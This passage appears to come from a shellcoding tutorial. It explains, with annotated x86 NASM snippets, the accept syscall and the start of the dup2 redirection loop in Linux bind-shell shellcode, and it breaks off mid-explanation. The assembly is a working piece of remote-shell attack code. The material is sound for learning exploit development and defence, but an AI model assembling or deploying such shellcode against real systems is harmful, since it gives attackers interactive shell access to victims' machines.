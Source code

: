 ```bash
       referring to that socket.  The newly created socket is not in the listening state.  The  origi-
       nal socket sockfd is unaffected by this call.
```

The next 3 arguments can all equal '0' according to the man pages definition of the accept syscall.

The 4 arguments required for accept4:

* sockfd -> EDX (reference of socket initially stored in EAX)
* addr -> ESI == 0
* addrlen -> ESI == 0
* flags -> ESI == 0

The socket value (stored in EDX) is pushed onto the stack: 

```nasm
        push esi        ; NULL
        push esi        ; NULL
        push edx        ; pointer to sockfd
```

The RETURN VALUE defined in the man pages for accept4 describes a new sockfd value returned after the accept syscall is executed.

The accept syscall is executed using the code of 5, the program interrupt is then called which executes the accept syscall:

```nasm
	mov al, 0x66    ; socketcall
        mov bl, 5       ; sys_accept = 5
        mov ecx, esp    ; pointer to arguments pushed
        int 0x80        ; call the interrupt to execute accept syscall
```

4th syscall (Assembly code section):

```nasm
	; 4th syscall - accept incoming connections
        push esi        ; NULL
        push esi        ; NULL
        push edx        ; pointer to sockfd
        mov al, 0x66    ; socketcall
        mov bl, 5       ; sys_accept = 5
        mov ecx, esp    ; pointer to arguments pushed
        int 0x80        ; call the interrupt to execute accept syscall
```

#### 5th Syscall (Duplicate File Descriptors for STDIN, STDOUT and STDERR)
------

The dup2 syscall works by creating a loop, and iterating 3 times to accomodate all 3 file descriptors loading into the accepted connection (providing an interactive bind shell session).

To redirect IO to the descriptor, a loop is initiated with the ECX register, commonly known as the counter register. 
